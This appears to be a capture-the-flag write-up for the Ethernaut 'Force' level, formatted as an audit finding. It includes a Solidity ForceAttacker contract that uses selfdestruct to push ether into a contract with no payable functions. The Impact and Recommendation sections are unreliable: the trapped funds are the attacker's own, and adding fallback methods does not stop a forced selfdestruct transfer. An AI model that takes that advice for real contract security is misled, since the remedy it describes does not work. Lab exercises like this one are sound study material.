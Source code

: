 #### Some contracts will simply not take your money ¯\_(ツ)_/¯. The goal of this level is to make the balance of the contract greater than zero.

Things that might help:
- Fallback methods
- Sometimes the best way to attack a contract is with another contract.
- See the "?" page above, section "Beyond the console"

## Summary
The `Force` contact can be forced to take funds inside. However, they will remain trapped forever in it. Because it does not have any methods.

```solidity
contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```

## Vulnerability Detail
An attacker could deploy another contract and forcefully send funds to the `Force` contract. They will remain trapped inside.

The malicious contract:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ForceAttacker {
    address public forceAddress;

    constructor(address _forceAddress) {
        forceAddress = _forceAddress;
    }

    function forceSendMoney() public payable {
        selfdestruct(payable(forceAddress));
    }
}
```

Attack scenario:
1. Attacker deploys the malicious contract `ForceAttacker`.
2. They call the `forceSendMoney()` method with a `value = 1 ether`.
3. The attacker has successfully trapped `1 ether` inside the `Force` contract.

## Impact
High. An attacker can trap user funds forever inside the `Force` contract.

## Code Snippet
https://github.com/danielvichinyan/ethernaut-solutions/blob/main/force/Force.sol#L4-L10

## Tools Used
Remix IDE, Manual Review

## Recommendation
Provide fallback methods inside the `Force` contract to handle incoming funds efficiently.
